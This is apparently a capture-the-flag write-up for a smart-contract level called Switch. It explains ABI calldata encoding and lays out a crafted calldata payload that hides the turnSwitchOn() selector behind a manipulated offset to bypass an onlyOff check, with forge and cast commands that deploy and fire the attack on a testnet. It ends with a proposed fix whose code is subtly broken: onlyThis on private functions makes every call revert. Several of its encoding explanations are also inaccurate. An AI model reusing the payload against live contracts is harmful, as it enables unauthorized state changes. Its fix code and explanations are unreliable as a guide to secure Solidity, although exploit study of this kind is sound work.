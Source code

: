 # Switch

Just have to flip the switch. Can't be that hard, right?

## CALLDATA

`CALLDATA` is a read-only byte-addressable space where the data of a transaction or function call is stored in Ethereum smart contracts. It's used to encode function arguments that are sent along with a function call to a contract. Understanding calldata flow involves knowing how data is structured and passed to functions within the Ethereum Virtual Machine (EVM).

### How CALLDATA is encoded

1. `Function selector`: The first `4 bytes` of `CALLDATA` are reserved for the function selector. This is derived from the first 4 bytes of the Keccak-256 hash of the function signature (e.g., `transfer(address,uint256)`). The function selector is used by the EVM to determine which function to execute within the smart contract.

2. `Parameters encoding`: After the function selector, the parameters of the function call are encoded. Solidity uses the `Ethereum Contract ABI (Application Binary Interface)` specification for encoding these parameters.

3. `Fixed and Dynamic Types`: The Ethereum ABI differentiates between fixed-size types (like `uint256`, `address`, etc.) and dynamic types (like `bytes`, `string`, etc.). Fixed-size types are encoded directly in the calldata following the function selector. Dynamic types, however, are encoded differently to handle their variable size.

4. `Dynamic Types Encoding`:

   1. For dynamic types, the calldata includes an offset instead of the data itself immediately after the function selector and fixed-size arguments. This offset points to the location within the calldata where the actual data for the dynamic type starts.
   2. The actual data for a dynamic type begins with its length (for types like `bytes` and `string`) and is followed by the data itself. This length is necessary because the EVM needs to know how much data to read for these variable-length types.

5. `Padding`: The Ethereum ABI requires that all elements in the calldata are aligned to `32 bytes`. This means that if an argument does not naturally align to `32 bytes`, it must be `right-padded` with zeros. 

### calldatacopy

The `calldatacopy` instruction in Solidity's inline assembly is used to copy data from the call data to memory. The calldatacopy instruction is particularly useful for operations that require direct manipulation or inspection of the raw call data, which can be more gas-efficient in certain scenarios. Here's a breakdown of how calldatacopy works:

It's often used in low-level operations, such as when a contract needs to dynamically determine which function to call or when processing arbitrary-length data that doesn't fit neatly into Solidity's type system.

`calldatacopy` is a powerful tool for low-level manipulation of call data in Solidity contracts, enabling efficient data handling and custom processing scenarios. However, its use requires careful consideration of safety, complexity, and compatibility aspects.

- Syntax: calldatacopy(t, f, s)

    t (target): The starting position in memory where the data should be copied to.
    f (from): The starting position in the call data from where to begin copying.
    s (size): The number of bytes to copy from the call data to memory.

```bash
assembly {
    # copy 4 bytes from calldata at position 68 into the memory location starting at selector
    calldatacopy(selector, 68, 4) # grab function selector from calldata
}
```

The choice of position 68 assumes a specific layout of the call data, likely based on the structure of the transaction being sent to `flipSwitch`.

## Vulnerability

```bash
✗ cast sig "flipSwitch(bytes)"
0x30c13ade

cast sig "turnSwitchOff()"
0x20606e15

✗ cast sig "turnSwitchOn()"
0x76227e12
```
1. Function Selector for `flipSwitch(bytes memory data)`: `30c13ade`

This is the first 4 bytes of the calldata and is used to identify which function to call in the smart contract.

2. Offset for the data field: `0000000000000000000000000000000000000000000000000000000000000060`

This indicates the start of the data for the `bytes memory data` parameter. In Solidity, complex data types like `bytes` and `string` are passed by reference, with this part specifying the offset (in bytes) from the start of the calldata to where the data begins. The offset is `96 bytes` (`0x60` in hexadecimal), pointing to the location after the initial function selector and the length of the bytes array.

3. Padding to reach the `64-byte` offset: `0000000000000000000000000000000000000000000000000000000000000000`

This is used to align the next part of the calldata to a `64-byte` boundary, as per Solidity's convention for handling calldata.

4. Function selector for `turnSwitchOff()`: 20606e1500000000000000000000000000000000000000000000000000000000

This part is intended to mimic a legitimate call to `turnSwitchOff()` by including its function selector. The function selector is followed by padding to fill the rest of the `32-byte` slot.

5. Length of data field: `0000000000000000000000000000000000000000000000000000000000000004`

This specifies the length of the data being passed to the `flipSwitch` function. In this case, it indicates that the data is `4 bytes` long, which is incorrect given the actual length of the data provided. This is part of the crafted exploit.

6. Function selector for `turnSwitchOn()`: `76227e1200000000000000000000000000000000000000000000000000000000`

This is the actual data being passed to the `flipSwitch` function, intended to trigger a call to`turnSwitchOn()` by including its function selector. This part of the calldata is designed to exploit the contract by bypassing intended logic checks.

```bash
# Calldata layout (32-byte slots)
# 30c13ade                                                         -> function Selector for flipSwitch(bytes memory data)
# 0000000000000000000000000000000000000000000000000000000000000060 -> offset for the data field
# 0000000000000000000000000000000000000000000000000000000000000000 -> padding
# 20606e1500000000000000000000000000000000000000000000000000000000 -> function selector for turnSwitchOff()
# 0000000000000000000000000000000000000000000000000000000000000004 -> length of data field
# 76227e1200000000000000000000000000000000000000000000000000000000 -> function selector for turnSwitchOn()
```

## Attack

1. Deploy `SwitchAttack`.

```bash
forge script script/DeploySwitchAttack.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# make deploy ARGS="--network sepolia"
# https://sepolia.etherscan.io/address/0x70aD9fB0D0e2d9C82Bcf4DB46E6BdD2Beb5c7157
```

3. Attack

```bash
cast send $CONTRACT_ADDRESS "attack()" --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy

# https://sepolia.etherscan.io/tx/0xf1235f7755a33fcde34225c518755fe83d873519f671f43e6a95bb9a2e521744
```

## Fix

1. `Use explicit function calls instead of dynamic calls`: Replace the dynamic call in `flipSwitch` with explicit function calls. This prevents an attacker from crafting calldata that bypasses the contract's intended logic.

2. `Strengthen the onlyOff modifier`: Ensure that the `onlyOff` modifier checks not just for the presence of a specific function selector but also validates the overall structure and intent of the call.

3. `Validate the entire calldata`: Instead of just checking a portion of the calldata, validate the entire calldata to ensure it matches expected patterns for legitimate use cases.

4. `Use a more secure way to manage contract state`: Instead of allowing any external call to change the state, restrict state changes to predefined functions that are protected by appropriate access control mechanisms.

```bash
contract Switch {
    bool public switchOn; // switch is off
    bytes4 private constant OFF_SELECTOR = bytes4(keccak256("turnSwitchOff()"));
    bytes4 private constant ON_SELECTOR = bytes4(keccak256("turnSwitchOn()"));

    modifier onlyThis() {
        require(msg.sender == address(this), "Only the contract can call this");
        _;
    }

    # This modifier is no longer needed if we're not using dynamic calls
    # modifier onlyOff() {
    #     require(!switchOn, "Switch must be off");
    #     _;
    # }

    function flipSwitch(bool turnOn) public {
        require(!switchOn, "Switch must be off");
        if (turnOn) {
            turnSwitchOn();
        } else {
            turnSwitchOff();
        }
    }

    function turnSwitchOn() private onlyThis {
        switchOn = true;
    }

    function turnSwitchOff() private onlyThis {
        switchOn = false;
    }
}
```
